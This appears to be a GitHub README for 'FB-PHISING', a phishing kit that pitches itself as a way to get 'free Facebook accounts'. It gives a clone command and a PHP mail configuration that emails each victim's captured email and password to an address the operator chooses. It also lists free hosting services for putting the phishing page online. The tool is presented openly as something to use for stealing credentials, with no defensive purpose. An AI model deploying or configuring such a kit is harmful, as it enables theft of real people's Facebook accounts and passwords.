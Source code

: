# FB-PHISING

Do you want to get a free Facebook account? FB-PHISING is the solution

## Installation

You can install with git bash or directly from github

```bash
git clone https://github.com/SbgSchool/FB-PHISING.git
```

## Usage

Change the configuration belows

```php
$mail->Username = "your@email.com"; //email server
$mail->Password = "your_password"; //password email server
$mail->SetFrom("Your Email", "Name"); //set sender email
$mail->Subject = "subject"; //subject email
$mail->AddAddress("Your@email2.com");  // Email to get results
$mail->MsgHTML("Email : ".$email."\nPass : ".$pass."");
```

After changing the configuration ... you can immediately try it with a web server or web hosting

| Webserver | Webhosting | 
| ----------- | :---------: |
| [Infinity Free](infinityfree.net)| [Xampp](https://www.apachefriends.org/index.html) | 
| [000webhost](https://id.000webhost.com/) | [Wampp](https://www.wampserver.com/en/) | 
| and Others | and Others | 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
